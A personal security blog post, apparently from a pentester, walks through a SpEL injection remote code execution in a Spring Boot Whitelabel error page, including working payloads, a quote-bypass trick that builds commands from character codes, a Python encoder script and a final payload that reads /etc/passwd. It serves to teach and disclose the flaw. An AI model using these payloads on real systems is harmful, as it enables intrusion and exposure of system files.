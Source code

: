 ```yaml
---
title:  "Spring Boot RCE"
date:   2017-02-02 23:11:23
categories: [security]
tags: [security]
---
```



This is my very frist blog post which was pending for a long time (almost a year). I would like to share a particular Remote Code Execution (RCE) in Java Springboot framework. I was highly inspired to look into this vulnerability after I read this article by **David Vieira-Kurz**, which can be found at his [blog](http://secalert.net/#cve-2016-4977). His article talks about an RCE in the Spring Security OAuth framework and how the Whitelabel error page can be used to trigger code execution.

So this meant that any Whitelabel Error Page which reflected user input was vulnerable to it. This was because user input was being treated in as Springs Expression Language (***SpEL***). So during my pentest I had come across a particualr URL which triggered this Whitelabel Error page.

**URL:** `https://<domain>/BankDetailForm?id=abc${12*12}abc`

**Error Page:**
![alt text](../../images/initial_error.png "Initial Error")


My input of `abc${12*12}abc` was reflected as `abc144abc`. Then I wanted to perform a simple **id** and get the result on screen. I proceeded with the following payload:

**URI:** `/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec('id')}`

**Payload:** `${T(java.lang.Runtime).getRuntime().exec('id')}`

**Error Page:**
![alt text](../../images/error_2.png "Payload Error")

Hmm.....I see nothing. The reflection gave back the input as it is. I double checked David's blog to see if I was doing anything wrong. I was unsure as to what went wrong. Was the payload incorrect or did I make a mistake with the braces?? Nope. Everything was correct but I was still not getting my desired output. After fiddling around for a few hours I decided to fireup a demo Springs app and try to recreate the same scenario. I tried with a basic `{5*5}` and got `25` printed beautifully onscreen. Then I tried doing an **id** and bam!!!, it did not execute. I knew that I had to dig deeper because this was eating me up. 

It got me thinking that quotes might have been encoded and might have broken the **exec()** command. Next thing was to look at the stack trace at the server and see what was wrong.

![alt text](../../images/debug_mode.png "Debugging")

So after debugging I could see that single & double quotes were URL encoded. The **exec()** method clearly takes an argument
as a string. Now I either need to find characters within the error code and take bits & pieces and pass it to exec using **substring()**, which is still pretty difficult or I need to find a way to pass my string without using double quotes or single qutoes. I wanted to go with the second approach. Java supports nested functions and if I'm able to find a method which can output `id` or `cat etc/passwd`, this would then be passed to **exec()** and then my payload would run successfully.

After going through some Java classes I stumbled upon the following:

``` ruby
java.lang.Character.toString(105) 
-> prints the characer 'i'
``` 

Now I need to concat the letter 'd' and I'm golden. Again concat() is a method and i'm going to nest the `character.toString` inside it as well.

``` ruby
java.lang.Character.toString(105).concat(T(java.lang.Character).toString(100))
-> prints the characters 'id'
``` 
Now crafting the final payload, I get the following:

~~~ ruby          
https://<domain>/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec(T(java.
lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}
~~~
![alt text](../../images/rce_blind.png "id executes")

The **getRuntime()** method returns the runtime object which we got on screen. Now we have some sort of a Blind RCE with which we can run any commands. I wanted to go a step further and get the output on screen (just for fun). At this point I wanted to do a `cat etc/passwd` and print the result onto the Whitelabel Error page. This meant for every character I would need to write its ASCII equivalent in the format `concat(T(java.lang.Character).toString(<ascii value>))`. Wrote a quick sloppy python script to acheive this:

**Python Script:**

``` ruby
#!/usr/bin/env python
from __future__ import print_function
import sys

message = raw_input('Enter message to encode:')

print('Decoded string (in ASCII):\n')
for ch in message:
   print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""), 
print('\n')

```


Now to get the output of `cat etc/passwd` in the response, we will use the ***IOUtils*** class and call the **toString()** method. We can pass an input stream to this method and get the contents of the stream as a response.

~~~ ruby  
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).get
Runtime().exec(T(java.lang.Character).toString(99).concat(T(ja
va.lang.Character).toString(97)).concat(T(java.lang.Character).toStri
ng(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.la
ng.Character).toString(47)).concat(T(java.lang.Character).toString(10
1)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.C
haracter).toString(99)).concat(T(java.lang.Character).toString(47)).c
oncat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).
toString(97)).concat(T(java.lang.Character).toString(115)).concat
(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toStrin
g(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
~~~

The payload became quite huge. To sum up, I used the Apache IOUtils library. I converted `cat etc/passwd` into ASCII characters using the character class, passed this value to the **exec()** method and got the input stream and passed it to the `toString()` method of IOUtils class. Awesome isnt it. I tried this on the remote box and got the following.

![alt text](../../images/rce_new.jpg "etc/passwd")

All this hassle just to get around the single and double quotes. However I feel there might have been easier ways to go about it. Tackling out the hurdles and troubleshooting and debugging and finally getting what you want is such a serene feeling. This bug was a learning curve for me and I learned a lot of things alongside exploiting this.

I hope you guys enjoyed this blog. Please feel free to let me know your thoughts or any doubts you have. You can also catch me up on [Twitter][twitter] or shoot me an email.


[twitter]:      https://twitter.com/0xdeadpool
